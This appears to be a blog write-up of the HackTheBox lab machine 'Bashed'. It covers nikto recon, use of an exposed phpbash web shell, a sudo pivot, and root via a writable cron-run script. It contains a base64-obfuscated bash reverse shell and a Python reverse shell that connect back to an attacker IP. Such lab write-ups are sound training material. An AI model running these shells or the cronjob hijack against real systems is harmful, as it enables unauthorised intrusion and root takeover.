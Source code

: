 +++ 
title = "Bashed HTB Write up"
description = "Write up for the HTB machine 'Bashed'"
author = "greatmoves"
tags = ["php", "sudo -l", "python", "nikto", "cronjob", "hackthebox"]
date = 2023-03-01
+++
- [1. Recon](#1-recon)
  - [1.1. Nikto](#11-nikto)
- [2. Privilege escalation](#2-privilege-escalation)

## 1. Recon
----
### 1.1. Nikto
cmd: `nikto -host 10.10.10.68`

Our nikto scan reveals to us a number of files and directories
- /config.php
- /css/
- /dev/
- /php/
- /images/
- /icons/

The path `/dev/phpbash.php` seems to be a remote shell

So let's use this to get a reverse shell by running the following command along with a netcat listener

`echo "c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAueC54LzQ0NDQgMD4mMQ==" | base64 -d | bash`

Once we have our reverse shell let's start with obtaining a fully interactive shell by running `python -c 'import pty;pty.spawn("/bin/bash");'` and then `sudo -l` where we get the following output:

```
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

This means we don't need a password to move from our user `www-data` to the user `scriptmanager`, so we simply run `sudo -u scriptmanager /bin/bash` 

`/home/arrexel` is where we can find `user.txt`

## 2. Privilege escalation
----
Through further enumeration of the file system we can see that there is a `/scripts/` folder in the root of the file system.

Simply running `ls -la` we can see that `test.py` is owned by our user, `scriptmanager`, and `test.txt` is owned by the root user.

Therefore we could assume that the script `test.py` is being run by the root user (perhaps through a cronjob, or some sort of other automation), and since `test.py` is owned by our user, we have permissions to edit it.

So, let's replace `test.py` with a python script for a reverse shell. We can do this by using `echo '{python code here}' > test.py` when in the `/scripts/` directory.

{{< highlight py "linenos=inline" >}}
    #!/usr/bin/python3
    import socket,subprocess,os;
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
    s.connect(("10.10.x.x",4445));os.dup2(s.fileno(),0);
    os.dup2(s.fileno(),1);
    os.dup2(s.fileno(),2);
    p=subprocess.call(["/bin/sh","-i"]);
{{< / highlight >}}

Spin up your netcat listener on the same port that is in your script and wait until `test.py` is run to catch your reverse shell as root.

Finally, navigate to `/root/` for `root.txt`
